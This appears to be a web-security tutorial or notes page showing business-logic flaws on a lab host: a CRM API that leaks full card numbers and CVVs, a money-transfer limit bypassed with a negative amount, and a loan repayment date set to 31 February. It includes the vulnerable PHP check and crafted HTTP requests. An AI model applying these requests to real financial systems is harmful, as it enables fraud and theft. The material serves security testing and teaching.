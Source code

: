     ```python
    I was testing a CRM (Customer Relationship Management)
    application, in which help desk representatives were only able to view basic customer
    details: their first and last names, their location, and the last 4 digits of their credit
    card number. But when I inspected the response, I found that the developers returned
    extra information that was not visible in the application view:
    
    HTTP/1.1 200 OK
    Host: vulnlab.com
    {“first_name”: “Harry”, “last_name”: “Potter”, “isAdmin”: false, “location”:
    “London”, “last_bill_cycle”: “110219”, “mask_cc”: “******4510”, “exp_-
    date”: “08/23”, “cvv”: “123”, “full_card”: “6011111111114510”}
    ```
- Bypass Transfer Money Limit
    
    ```python
    [] use negative number to exceed money transfer limit 
    private function CheckDayLimit($amount)
    {
    if($amount > 3000){
    return false;
    }
    return true;
    }
    ------------------------------------
    So, this could be overcome by using a simple negative number. In the end, I bypassed
    this business logic by the following request:
    --------------------------------------
    PUT /v1/api/transfer-money HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json
    {‘csrf_token’: ‘RWFzdGVyIGVnZyEgWW91RhdGEg=’,’amount’: ‘-4500’, ‘currency’: ‘USD’, ‘customer_account’: ‘012-90829-012’}
    And the response was:
    HTTP/1.1 200 OK
    Host: vulnlab.com
    -------------------------------
    Why did this happen? It seems that in the rest of the application logic, negative
    numbers in the amount parameter were generated as positive numbers. However,
    the negative value could override the “greater than” logic, letting us process the
    transaction and bypass the business requirement.
    ```
- Borrow Money Without Return
    
    ```python
    [] Change the loan return date to --> 31/February
    --------------
    Example 
    PUT /v1/api/customer/loan HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json
    {‘csrf_token’: ‘RWFzdGVyIGVnZyEgWW91RhdGEg=’, ‘loadId’: ‘PID6459’,
    ‘first_payment’: ‘11032015’}
    ----------------------
    PUT /v1/api/customer/loan HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json
    {‘csrf_token’: ‘RWFzdGVyIGVnZyEgWW91RhdGEg=’, ‘loadId’: ‘PID6459’,
    ‘first_payment’: ‘31022015’}
    -----------------------------------
    Explain: 
    Obviously, there are only 28 days in February (and 29 days in a leap year). Hence, in
    the above case, it means that we can receive the loan, while the return payment date
    would never arrive.